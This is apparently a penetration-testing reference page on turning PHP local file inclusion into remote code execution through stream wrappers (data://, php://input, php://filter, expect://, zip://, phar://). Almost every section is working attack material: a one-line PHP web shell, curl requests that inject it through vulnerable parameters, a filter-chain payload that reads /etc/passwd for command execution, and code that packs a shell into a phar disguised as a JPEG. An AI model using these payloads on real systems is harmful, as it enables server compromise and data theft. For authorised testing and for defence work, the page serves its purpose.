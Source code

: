 ```yaml
---
authors: 'LucasParsy, ShutdownRepo'
category: web
---
```


# PHP wrappers and streams

::: details data://
The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.


```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```

:::


::: details php://input
The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.


```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```

:::


::: details php://filter
The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.


```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```


The [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) script (Python3) implements the generation of the PHP filters chaining.


```
# Example: generate <?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.

# Generate the payload 
python3 php_filter_chain_generator.py --chain '<?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&cmd=whoami"
```


Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.
:::


::: details expect://
The `expect` wrapper doesn't required the `allow_url_include` configuration, the `expect` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=expect://id"
```
:::


::: details zip://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).


```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```

:::


::: details phar://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.


```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

:::

